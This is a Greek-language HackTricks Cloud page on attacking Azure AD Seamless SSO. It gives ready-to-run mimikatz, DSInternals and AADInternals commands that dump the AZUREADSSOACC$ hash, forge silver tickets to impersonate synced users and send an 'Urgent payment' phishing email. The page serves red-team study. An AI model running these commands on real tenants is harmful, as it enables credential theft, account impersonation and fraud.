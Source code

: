 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Η Seamless Single Sign-On (SSO) του Azure Active Directory (Azure AD Seamless SSO) **συνδέει αυτόματα τους χρήστες όταν βρίσκονται σε εταιρικές συσκευές** που είναι συνδεδεμένες στο εταιρικό σας δίκτυο. Όταν είναι ενεργοποιημένο, **οι χρήστες δεν χρειάζεται να πληκτρολογούν τους κωδικούς πρόσβασής τους για να συνδεθούν στο Azure AD**, και συνήθως, ούτε καν τα ονόματα χρήστη τους. Αυτή η δυνατότητα παρέχει στους χρήστες σας εύκολη πρόσβαση στις εφαρμογές σας που βασίζονται στο cloud χωρίς να χρειάζονται επιπλέον τοπικά στοιχεία.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Βασικά, η Seamless SSO του Azure AD **συνδέει τους χρήστες** όταν βρίσκονται **σε υπολογιστή που είναι συνδεδεμένος σε τοπικό τομέα**.

Υποστηρίζεται τόσο από [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) όσο και από [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Η SSO για επιτραπέζιους υπολογιστές χρησιμοποιεί **Kerberos** για την αυθεντικοποίηση. Όταν ρυθμιστεί, το Azure AD Connect δημιουργεί έναν **λογαριασμό υπολογιστή που ονομάζεται AZUREADSSOACC`$`** στο τοπικό AD. Ο κωδικός πρόσβασης του λογαριασμού `AZUREADSSOACC$` **αποστέλλεται ως απλό κείμενο στο Azure AD** κατά τη διάρκεια της ρύθμισης.

Οι **εισιτήριοι Kerberos** είναι **κρυπτογραφημένοι** χρησιμοποιώντας το **NTHash (MD4)** του κωδικού πρόσβασης και το Azure AD χρησιμοποιεί τον αποσταλμένο κωδικό πρόσβασης για να αποκρυπτογραφήσει τους εισητήριους.

**Το Azure AD** εκθέτει ένα **σημείο πρόσβασης** (https://autologon.microsoftazuread-sso.com) που δέχεται **εισιτήρια** Kerberos. Ο περιηγητής της μηχανής που είναι συνδεδεμένη στο τομέα προωθεί τα εισιτήρια σε αυτό το σημείο πρόσβασης για SSO.

### On-prem -> cloud

Ο **κωδικός πρόσβασης** του χρήστη **`AZUREADSSOACC$` ποτέ δεν αλλάζει**. Επομένως, ένας διαχειριστής τομέα θα μπορούσε να παραβιάσει τον **hash αυτού του λογαριασμού**, και στη συνέχεια να τον χρησιμοποιήσει για να **δημιουργήσει ασημένια εισιτήρια** για να συνδεθεί στο Azure με **οποιονδήποτε τοπικό χρήστη που έχει συγχρονιστεί**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Με το hash μπορείτε τώρα **να δημιουργήσετε ασημένια εισιτήρια**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Για να χρησιμοποιήσετε το silver ticket, θα πρέπει να εκτελέσετε τα εξής βήματα:

1. **Εκκίνηση του Προγράμματος Περιήγησης:** Πρέπει να εκκινήσετε το Mozilla Firefox.
2. **Ρύθμιση του Προγράμματος Περιήγησης:**
* Μεταβείτε στο **`about:config`**.
* Ρυθμίστε την προτίμηση για [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) στις καθορισμένες [τιμές](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Πρόσβαση στην Ιστοσελίδα Εφαρμογής:**
* Επισκεφθείτε μια διαδικτυακή εφαρμογή που είναι ενσωματωμένη με το AAD domain της οργάνωσης. Ένα κοινό παράδειγμα είναι το [Office 365](https://portal.office.com/).
4. **Διαδικασία Αυθεντικοποίησης:**
* Στην οθόνη σύνδεσης, πρέπει να εισαχθεί το όνομα χρήστη, αφήνοντας το πεδίο κωδικού πρόσβασης κενό.
* Για να προχωρήσετε, πατήστε είτε TAB είτε ENTER.

{% hint style="success" %}
Αυτό δεν παρακάμπτει το MFA αν είναι ενεργοποιημένο
{% endhint %}

#### Επιλογή 2 χωρίς dcsync - SeamlessPass

Είναι επίσης δυνατό να εκτελέσετε αυτήν την επίθεση **χωρίς επίθεση dcsync** για να είστε πιο διακριτικοί, όπως [εξηγείται σε αυτήν την ανάρτηση ιστολογίου](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Για αυτό χρειάζεστε μόνο ένα από τα εξής:

* **TGT ενός παραβιασμένου χρήστη:** Ακόμα και αν δεν έχετε ένα, αλλά ο χρήστης έχει παραβιαστεί, μπορείτε να αποκτήσετε ένα χρησιμοποιώντας το κόλπο ψεύτικης ανάθεσης TGT που έχει υλοποιηθεί σε πολλά εργαλεία όπως το [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) και το [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Αν έχετε το κλειδί KRBTGT, μπορείτε να δημιουργήσετε το TGT που χρειάζεστε για τον παραβιασμένο χρήστη.
* **NTLM hash ή AES key ενός παραβιασμένου χρήστη:** Το SeamlessPass θα επικοινωνήσει με τον ελεγκτή τομέα με αυτές τις πληροφορίες για να δημιουργήσει το TGT.
* **NTLM hash ή AES key του λογαριασμού AZUREADSSOACC$:** Με αυτές τις πληροφορίες και τον Αναγνωριστικό Ασφαλείας (SID) του χρήστη που θέλετε να επιτεθείτε, είναι δυνατό να δημιουργήσετε ένα service ticket και να αυθεντικοποιηθείτε με το cloud (όπως εκτελέστηκε στην προηγούμενη μέθοδο).

Τέλος, με το TGT είναι δυνατό να χρησιμοποιήσετε το εργαλείο [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) με:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Περισσότερες πληροφορίες για να ρυθμίσετε το Firefox να λειτουργεί με seamless SSO μπορείτε να [**βρείτε σε αυτή την ανάρτηση blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Δημιουργία Kerberos tickets για χρήστες μόνο στο cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Εάν οι διαχειριστές του Active Directory έχουν πρόσβαση στο Azure AD Connect, μπορούν να **ορίσουν SID για οποιονδήποτε χρήστη cloud**. Με αυτόν τον τρόπο, τα Kerberos **tickets** μπορούν να **δημιουργηθούν και για χρήστες μόνο στο cloud**. Η μόνη απαίτηση είναι ότι το SID είναι ένα κατάλληλο [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Η αλλαγή του SID των χρηστών διαχειριστών μόνο στο cloud είναι τώρα **μπλοκαρισμένη από τη Microsoft**.\
Για πληροφορίες δείτε [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud μέσω Περιορισμένης Αντιπροσώπευσης Βασισμένης σε Πόρους <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Οποιοσδήποτε μπορεί να διαχειριστεί λογαριασμούς υπολογιστών (`AZUREADSSOACC$`) στο κοντέινερ ή OU όπου βρίσκεται αυτός ο λογαριασμός, μπορεί να **ρυθμίσει μια περιορισμένη αντιπροσώπευση βασισμένη σε πόρους πάνω από τον λογαριασμό και να έχει πρόσβαση σε αυτόν**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Αναφορές

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Είμαι στο cloud σας, διαβάζοντας τα email όλων - hacking Azure AD μέσω Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

